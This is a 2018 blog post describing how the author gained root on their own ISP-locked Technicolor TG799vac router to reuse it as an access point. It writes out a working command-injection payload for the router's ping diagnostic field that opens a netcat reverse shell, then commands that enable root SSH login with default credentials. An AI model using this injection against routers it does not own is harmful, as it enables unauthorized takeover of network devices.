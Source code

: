 ```yaml
---
title: Getting root access to your Technicolor TG799vac Xtream (Crimson (15.4))
date: 2018-07-25T12:00:00Z
categories: "Hardware/Router"
---
```

## Intro
Today, I received a free Technicolor TG799vac Xtream router from my ISP, which seems to have quite decent hardware according to my google-fu. I already have a router (two technically speaking), so I have no real need for it. But I have a way it might come to use.

See, currently I have one router without any radio, which I use as my main gateway and router. This is a really nice machine for the most part, so I really like having it for that purpose.  But since I also need WiFi at home, I have my old router which only runs as an access point, forwarding all traffic to my router. Since this AP is upstairs, it wouldn't be too bad having another AP downstairs, maybe somewhere where it gives better WiFi to my garden or garage. This is the idea at least.

Sadly, my ISP has locked the new router down. Making it not possible to put it any kind of AP-only/bridge mode. Fortunately, the security for the device seems shitty, making it easy to get root access through the web interface.

## Steps to gain shell root access
1. Connect to the router's network  
2. Start listening with netcat on your favourite port - `nc -l 8080`  
3. Log in to the web interface with the information you received from your ISP - in my case it's located at http://192.168.10.1 and the username is *admin*  
4. Go to the *Diagnostics Ping & Traceroute* card  
5. Under *Ping Statistics*, Set *IP Address* to `:::::::;nc 192.168.10.216 8080 -e /bin/sh` and press *Send Ping Request*  
6. Back to the netcat window, here you should have root access to an ash-shell, even though nothing is visible right now. Type any command, like`ls`, to confirm.  
7. Since these kind of reverse-shells are a pain to work in, the first step is getting access to ssh.
Luckily, there should be one installed, though blocked for you.
To see the configuration, type `cat /etc/config/dropbear`. Mine looked like this:  

```
config dropbear
    option PasswordAuth 'off'
    option RootPasswordAuth 'on'
    option Port '22'
    option Interface 'wan'
#this statement in itself is not working, need FW rule:
    option AllowedClientIPs '195.54.114.216/29 195.54.106.0/28 195.54.106.144/28'
    option enable '1'

#config dropbear
#        option PasswordAuth     'on'
#        option RootPasswordAuth 'on'
#        option Port             '22'
#        option Interface        'lan'
#        option enable '1'
```
Here we see that the router is completely open to people from some ip-ranges from WAN, but closed to you. In fact the complete opposite from what we want. If you have exactly the same configuration, you have fix it by running `sed -i -e '1,9 d' -e's/#//' /etc/config/dropbear`. You want to end up with something like this:
```
config dropbear
        option PasswordAuth     'on'
        option RootPasswordAuth 'on'
        option Port             '22'
        option Interface        'lan'
        option enable '1'
```
8. Restart dropbear - `/etc/init.d/dropbear restart`  
9. Connect through ssh from another shell - `ssh root@192.168.10.1`, username and password is *root*. TADA

```
The authenticity of host '192.168.10.1 (192.168.10.1)' can't be established.
RSA key fingerprint is SHA256:ZEP4kdhhGqvYO4cNN3aAkXUXs+MPHMA2fpv1WlL7O90.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '192.168.10.1' (RSA) to the list of known hosts.
root@192.168.10.1's password:


BusyBox v1.19.4 (2016-12-23 11:07:18 UTC) built-in shell (ash)
Enter 'help' for a list of built-in commands.

-----------------------------------------------------------------------
                        ##
                   #########
                 ###########
                #########
               ####                      ##
              ##          ##             ##
      ###########        #####   ####    ##    ####    ## ###     ####    ## ##
   ########   #####       ##   ##    ##  ##  ##    ##  #######  ##    ##  #####
  ########    #######     ##   ##    ##  ##  ##    ##  ##   ##  ##    ##  ###
########      ########    ##   ########  ##  ########  ##   ##  ##    ##  ##
#######        ########   ##   ##        ##  ##        ##   ##  ##    ##  ##
######         #########  ####  ######   ###  ######   ##   ##    ####    ##
  ##            #########
                #########
                 ########
                  #######
                   #####
-----------------------------------------------------------------------

Product: vant-w_telenor_r15-4
Release: Crimson (15.4)
Version: 15.53.7451-1761003-20170320115330
```  
10. (Optional) Put your own rsa-key in */etc/dropbear/authorized_keys* and remove password login from */etc/config/dropbear*  

## What now
Now, it seems like the real OS is openwrt, meaning opkg is installed, which in turn can be used to install whatever you need. It also seems possible to unlock more cards on the web interface through the config in /etc/config. I might update this guide with some more info on this later.

